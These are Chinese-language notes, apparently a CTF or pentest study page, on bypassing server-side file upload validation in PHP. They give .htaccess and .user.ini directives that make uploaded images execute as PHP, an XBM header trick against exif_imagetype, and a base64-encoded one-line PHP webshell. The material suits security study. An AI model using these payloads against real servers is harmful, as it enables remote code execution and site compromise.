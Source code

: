 ## **后端校验文件上传绕过**

### **1. 后端文件后缀校验**
#### 后端白名单后缀校验：
```
后端白名单校验图片后缀代码：
in_array($str,["png","jpg","gif"])
```
本地把.php后缀修改为.png绕过上传，但是.png不会当php脚本解析。
解决：
**1.apache有控制配置文件.htaccess**
>php服务器apache有控制配置文件.htaccess，在一个目录下有了.htaccess文件，
可以通过.htaccess文件里配置实现：网页301重定向，自定义404错误页面，修改解析文件扩展名，配置默认文档，禁止显示文件目录列表等。

所有php包含
```
一种配置是`php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./poc.jpg"`  这是Apache配置指令，用于设置PHP的`auto_prepend_file`指令。`auto_prepend_file`指令指定了一个PHP文件，该文件将在每个PHP脚本执行之前自动被包含和执行。这里指定的文件是一个使用PHP协议的伪URL，它首先对`poc.jpg`文件进行Base64解码，然后包含解码后的内容作为PHP代码执行。
一句话木马密码cmd：
GIF89a66
PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==
```

```
绕过php的exif_imagetype()，.htaccess可以加个文件头，#正好被当做XBM图片的文件开头
#define width 1337 
#define height 1337
```


可以尝试上传自定义的.htaccess文件到文件上传目录，实现当前目录的png文件当php脚本解析。
.htaccess文件内容:
```
AddType application/x-httpd-php .png
```

指定文件名jz.jpg当作php解析
```
<FilesMatch "jz">
SetHandler application/x-httpd-php
</FilesMatch>
```

应用：<https://www.cnblogs.com/Article-kelp/p/16097100.html#:~:text=%E8%BF%87%E7%A8%8B.%20%E6%89%93%E5%BC%80%E9%A2%98%E7%9B%AE%E5%B0%B1%E8%83%BD>


**2.利用中间件解析漏洞。**

**3.更广的.user.ini**
它比.htaccess用的更广，不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用这个方法。
但是需要上传的目录有一个index.php了，原因：.user.ini中auto_prepend_file=shell.jpg会在执行index.php前把shell.jpg包含进来。
<https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html>
```
GIF89a
auto_prepend_file=shell1.jpg
```
访问index.php即可。
